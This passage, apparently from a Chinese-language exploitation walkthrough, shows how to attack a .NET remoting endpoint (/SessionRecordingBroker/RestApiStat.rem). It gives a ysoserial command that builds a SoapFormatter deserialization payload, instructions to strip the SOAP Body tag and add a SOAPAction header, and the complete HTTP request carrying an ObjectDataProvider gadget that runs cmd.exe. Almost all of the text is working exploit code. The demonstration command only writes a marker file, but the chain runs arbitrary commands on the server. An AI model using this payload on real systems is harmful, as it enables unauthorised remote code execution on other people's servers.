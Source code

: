 - SOAPAction Header不应为空  
  
- 在Payload中需要删除<SOAP-ENV:Body> </SOAP-ENV:Body> 标记  
  
首先创建Payload：  
```
.\ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -o raw -c 'cmd.exe /C echo pwned > C:\Users\Public\Downloads\PWNED.txt'
```  
  
COPY  
  
然后，删除 <SOAP-ENV:Body>标记并添加 SOAPAction Header，可以得到以下请求：  
```
POST /SessionRecordingBroker/RestApiStat.rem HTTP/2
Host: aaa.bbb.ccc.ddd
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Cache-Control: max-age=0
Soapaction: "x"
Content-Length: 1673

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"xmlns:xsd="http://www.w3.org/2001/XMLSchema"xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0"SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1"xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;?xml version=&#34;1.0&#34;
encoding=&#34;utf-16&#34;?&#62;
&#60;ObjectDataProvider MethodName=&#34;Start&#34;
IsInitialLoadEnabled=&#34;False&#34;
xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
xmlns:sd=&#34;clr-namespace:System.Diagnostics;assembly=System&#34;
xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;&#62;
   &#60;ObjectDataProvider.ObjectInstance&#62;
     &#60;sd:Process&#62;
       &#60;sd:Process.StartInfo&#62;
         &#60;sd:ProcessStartInfo Arguments=&#34;/c cmd.exe /C echo
pwned &#38;gt; C:\Users\Public\Downloads\PWNED.txt&#34;
StandardErrorEncoding=&#34;{x:Null}&#34;
StandardOutputEncoding=&#34;{x:Null}&#34; UserName=&#34;&#34;
Password=&#34;{x:Null}&#34; Domain=&#34;&#34;
LoadUserProfile=&#34;False&#34; FileName=&#34;cmd&#34; /&#62;
       &#60;/sd:Process.StartInfo&#62;
     &#60;/sd:Process&#62;
   &#60;/ObjectDataProvider.ObjectInstance&#62;
&#60;/ObjectDataProvider&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```  
  